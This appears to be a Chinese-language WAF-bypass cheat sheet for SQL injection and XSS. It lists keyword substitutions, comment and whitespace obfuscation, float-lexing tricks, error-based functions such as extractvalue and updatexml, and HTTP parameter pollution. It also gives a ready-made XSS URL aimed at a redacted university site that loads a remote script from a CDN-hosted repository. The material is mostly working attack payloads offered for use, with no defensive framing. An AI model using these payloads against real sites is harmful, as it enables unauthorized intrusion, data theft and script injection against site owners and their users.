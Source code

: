 1. AND 等价于 &&
2. OR 等价于 ||
3. = 等价于 like
4. + 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

```
最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能,因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

**hpp 方式**

HPP 是指 HTTP 参数污染.形如以下形式:`?id=1&id=2&id=3` 的形式,此种形式在获取 id 值的时候不同的 web 技术获取的值是不一样的.
假设提交的参数即为:
```
id=1&id=2&id=3

Asp.net + iis:id=1,2,3
Asp + iis:id=1,2,3
Php + apache:id=3

形如 index.php?a=[whitelist]&a=select 1 union select 2
```
